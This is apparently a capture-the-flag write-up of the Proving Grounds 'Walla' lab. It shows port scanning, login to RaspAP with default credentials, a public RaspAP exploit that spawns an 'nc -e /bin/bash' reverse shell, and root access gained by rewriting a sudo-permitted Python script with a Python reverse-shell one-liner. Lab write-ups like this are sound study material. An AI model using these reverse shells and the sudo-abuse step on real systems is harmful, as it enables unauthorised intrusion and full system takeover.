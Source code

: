 ```yaml
---
title: Proving Grounds - Walla
date: 2022-11-12
author: Marius
tags: [ctf, 'proving grounds', 'pg']
---
```


Intermediate rated OSCP like box found on Proving Grounds. Lets check it out.

### Enumeration

```
└─$ rustscan -a 192.168.209.97 -- -sC -sV | tee nmap

PORT      STATE SERVICE    REASON  VERSION
22/tcp    open  ssh        syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
23/tcp    open  telnet     syn-ack Linux telnetd
25/tcp    open  smtp       syn-ack Postfix smtpd
| ssl-cert: OpenSSL required to parse certificate.
| -----BEGIN CERTIFICATE-----
| MIICzTCCAbWgAwIBAgIUSjsFHwJii76XBfqWrgTLj7nupXgwDQYJKoZIhvcNAQEL
| BQAwEDEOMAwGA1UEAwwFd2FsbGEwHhcNMjAwOTE3MTgyNjM2WhcNMzAwOTE1MTgy
| NjM2WjAQMQ4wDAYDVQQDDAV3YWxsYTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCC
| AQoCggEBAOwqF+jjwFmrSmgMiDEP1C3Adi9w1nrHCw8pFunsf2BnG4tRF3Xj2blV
| d5+CaCqmsiADAjFGXNREudaCvYKvw9ctU83dKw8khjho9Q+vm6AEMgS78uQNhQp3
| uXFkQVboMxYZdtxGs2/JkE0S52qYXScSJWer8uEon7qAkLgRJ1gQQHlqZ44ekmdt
| wPaQIu5IYWIeMYiLHb3Ivvk6esj/01NpaNmTNyljF2LxdEJaRjYYEMPqvS2Z5Dzd
| QL+fIWkeINwvWl+J4rkZA5xnLnOo08BG4MtGHAi0b2+bJ4fGT4fnrgoXoG6D9vIN
| jcxFhgScgAiA+ifARtuoKjWMukDiChUCAwEAAaMfMB0wCQYDVR0TBAIwADAQBgNV
| HREECTAHggV3YWxsYTANBgkqhkiG9w0BAQsFAAOCAQEAmzn/Ujcmz5o+qRXzL2ZR
| 60yEhjRd3kRaU4im8917uvzt7tZ/ELIGbCEEaNfhNOvyqDAtRPZC7U1m94baUqr+
| 741Er3x+NPR8A0aNn4tYq6SnD66XNeVecQfplg6uTjVCChO1iEAFXo1ETUjP6WV6
| Am8XspbmjffTPLWei0uw+qXfOL9TFu8sIFbhr0+UmV6ZpXNc+yoqGUlKFUTcHye0
| OZHrz6yNf+hUnMWBY6wWUB5SlpT4Onrnm6SWBU7rAD3kvLAsmpQHI38x5NTAxRWZ
| m5NUiiBnSYTwXytEvzHdqgkNxKPQDKnfS8D9oeVFjtM22TNKI8ytVFV+SQ0plPA+
| tQ==
|_-----END CERTIFICATE-----
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
|_ssl-date: TLS randomness does not represent time
53/tcp    open  tcpwrapped syn-ack
422/tcp   open  ssh        syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
8091/tcp  open  http       syn-ack lighttpd 1.4.53
|_http-server-header: lighttpd/1.4.53
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
42042/tcp open  ssh        syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Exploitation

Looking into Nmap results for port 8091, we can see it's potentially running RaspAP. Googling  RasAP default login I managed to get credentials **admin:secret** to the web application.

![alt text](/assets/img/walla/webpage.png)

Also did a Searchsploit search for this web application and I found an exploit for RaspAP 2.6.6

```
└─$ searchsploit raspap
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
RaspAP 2.6.6 - Remote Code Execution (RCE) (Authenticated)                     | php/webapps/50224.py
------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results                     
```

Unfortunately RaspAP version is v2.5. Doing a quick google search I found [CVE-2020-24572](https://github.com/gerbsec/CVE-2020-24572-POC/blob/main/exploit.py) which does the job as well.

```
└─$ python exploit.py 192.168.209.97 8091 192.168.49.209 8091 secret 1      
[!] Using Reverse Shell: nc -e /bin/bash 192.168.49.209 8091
[!] Sending activation request - Make sure your listener is running . . .
[>>>] Press ENTER to continue . . .

[!] You should have a shell :)

[!] Remember to check sudo -l to see if you can get root through /etc/raspap/lighttpd/configport.sh
```

Got a low privilege shell.

```
└─$ nc -nvlp 8091
listening on [any] 8091 ...
connect to [192.168.49.209] from (UNKNOWN) [192.168.209.97] 44184
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@walla:/var/www/html/includes$ whoami
whoami
www-data
www-data@walla:/var/www/html/includes$ 
```

Walter's home directory contains local.txt and wifi_reset.py script.
```
www-data@walla:/home/walter$ ls -la
ls -la
total 28
drwxr-xr-x 2 www-data www-data 4096 Sep 17  2020 .
drwxr-xr-x 6 root     root     4096 Sep 17  2020 ..
-rw-r--r-- 1 walter   walter    220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 walter   walter   3526 Apr 18  2019 .bashrc
-rw-r--r-- 1 walter   walter    807 Apr 18  2019 .profile
-rw------- 1 www-data walter     33 Nov 12 08:28 local.txt
-rw-r--r-- 1 root     root      251 Sep 17  2020 wifi_reset.py
```

### Privilege escalation

Did a check  what www-user can run with sudo
```
www-data@walla:/tmp$ sudo -l
sudo -l
Matching Defaults entries for www-data on walla:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on walla:
    (ALL) NOPASSWD: /sbin/ifup
    (ALL) NOPASSWD: /usr/bin/python /home/walter/wifi_reset.py
    (ALL) NOPASSWD: /bin/systemctl start hostapd.service
    (ALL) NOPASSWD: /bin/systemctl stop hostapd.service
    (ALL) NOPASSWD: /bin/systemctl start dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl stop dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl restart dnsmasq.service
```

Looks like we can run wifi_reset.py with sudo.  I added a Python reverse shell to the script.

```
www-data@walla:/home/walter$ cat > wifi_reset.py << EOF
cat > wifi_reset.py << EOF
> import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.209",80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
<eno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
> EOF
EOF
```

Ran the script with sudo, and got the shell !

```
www-data@walla:/home/walter$ sudo /usr/bin/python /home/walter/wifi_reset.py
```

```
└─$ nc -nvlp 80                                                                        
listening on [any] 80 ...
connect to [192.168.49.209] from (UNKNOWN) [192.168.209.97] 40914
# cd /root
cd /root
# ls -la
ls -la
total 20
drwx------  2 root root 4096 Nov 12 08:27 .
drwxr-xr-x 18 root root 4096 Sep 17  2020 ..
lrwxrwxrwx  1 root root    9 Sep 17  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Nov 12 08:28 proof.txt
```

GG fun and straightforward lab.